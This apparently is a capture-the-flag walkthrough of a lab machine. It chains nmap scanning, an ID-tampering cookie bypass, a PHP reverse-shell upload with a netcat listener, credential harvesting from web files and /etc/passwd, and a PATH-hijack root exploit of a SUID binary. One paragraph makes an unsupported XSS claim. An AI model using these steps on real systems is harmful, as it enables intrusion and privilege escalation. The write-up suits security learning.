 #veryeasy 
#web 
#privescalation 
#latmovement
#cookie
#suid
#php 

**Reconnaissance**

The first step in any penetration test is reconnaissance, where we gather information about the target application and its environment. In this case, we used `nmap -p-  $TARGET` to scan the target IP address and identify open ports and services. The output of the Nmap scan is shown below:
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-21 18:17 CET
Nmap scan report for 10.129.104.19
Host is up (0.065s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
From the Nmap output, we can see that the target application is running SSH and HTTP services. We also note that there are 65533 closed TCP ports, which suggests that the target application may have additional services or applications running on those ports that are not visible to us.


**Web Application Analysis**

Next, we analyzed the target web application using Burp Suite as a proxy to identify potential vulnerabilities. Even if at first sight the website seems pretty simple, in Burp Suite the sitemap allow us to see that there is a hidden login.

We checked the login that is `/cdn-cgi/login` by accessing `http://10.129.104.19/cdn-cgi/login`.
The login had let us enter as a guest, so we did it to perform a further exploration.

The website have a page for uploading files that we could exploit but we needed superadmin rights to use it, so we checked the cookies finding there a cookie for the role and another one for the user id. As we didn't have the values for the admin cookies we keep searching in the website, this time we find a account info tab that shows us the user id, role and mail. The url of this last tab looks like `http://10.129.104.19/cdn-cgi/login/admin.php?content=accounts&id=2`, so we can try to modify the value of id to 1.

|34322|admin|admin@megacorp.com|

With the new value we get the values we needed to modify the cookies in order to be superadmin. With the superadmin priviledges we uploaded a reverse shell to the website, the one that was used can be found in ParrotOS /usr/share/webshells/php/php-reverse-shell.php`

Once uploaded we need to know how to access it so we can trigger it, to achieve this we perform a enumeration of directories with `gobuster dir -u $TARGET -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html`

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.104.19
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
2023/11/21 18:44:37 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 315] [--> http://10.129.104.19/images/]
/index.php            (Status: 200) [Size: 10932]                                 
/themes               (Status: 301) [Size: 315] [--> http://10.129.104.19/themes/]
/uploads              (Status: 301) [Size: 316] [--> http://10.129.104.19/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.129.104.19/css/]    
/js                   (Status: 301) [Size: 311] [--> http://10.129.104.19/js/]     
/fonts                (Status: 301) [Size: 314] [--> http://10.129.104.19/fonts/]
```

It will possibly be inside the /uploads directory so before triggering it we start the listener with `nc -lvnp 1234`, now to trigger it we just need to enter into the /uploads/php-reverse-shellp.php. As we get a basic shell we can improve it with `python3 -c 'import pty;pty.spawn("/bin/bash")'`

From the Burp Suite output, we can see that the target application is using a session ID in a cookie. We also note that the login form accepts both username and password input fields. Based on this information, we can infer that the target application may be vulnerable to a cross-site scripting (XSS) attack.

**Lateral movement**

As we are using the user www-data which doesn't have privileges, we want to perform a escalation or a lateral movement.
To do so, we start by getting all the available information we can with this user. As the www-data we have permissions on the webcontents files/folders so we go to the default folder for web contents `/var/www/html/` then also we go inside the login folder `/cdn-cgi/login` and inside we perform a search of any kind of password `cat * | grep -i passw*`

```
if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
<input type="password" name="password" placeholder="Password" />
```
Now we have a password but we don't know the username so we check the contents of  /etc/passwd.
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
robert:x:1000:1000:robert:/home/robert:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```
The user robert is a real one(we know it because of the assigned shell), so we try to login into its account with the password we discovered previously. When testing with `su` we realize that the password isnt the one of robert so we keep looking. Now we check the file `db.php` getting

```
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>

```
We test again to login into robert account with the new password and this time we achieve it.

**Privilege escalation**
With our brand new account we start checking if we are a sudoer and our ids by running `sudo -l` and `id`

```
[sudo] password for robert: M3g4C0rpUs3r!

Sorry, user robert may not run sudo on oopsie.
```

We are not sudoers

```
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

But we are in a special group, so lets check if there are any special binaries by running `find / -group bugtracker 2>/dev/null`

```
/usr/bin/bugtracker
```

The special group has a file, so we check the special file type and permissions with the command  `ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker`
```
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
/usr/bin/bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped
```

The file has the euid enabled so we can exploit it to escalate privileges, now we run the app to test what it does, apparently it cats a file of our election.

```
------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 12
12
---------------

cat: /root/reports/12: No such file or directory
```

A rootcheck  can be performed  if we change the cat exec, to do this we create a fake cat in `/tmp` that calls `/bin/sh`, now we modify our path with the following commands `echo '/bin/sh' > /tmp/cat`  `chmod +x /tmp/cat` `export PATH=/tmp:$PATH`
After running all the commands we test again to run bugtracker, this time it gave us a root terminal.

```
------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
1
---------------

# whoami
whoami
root
```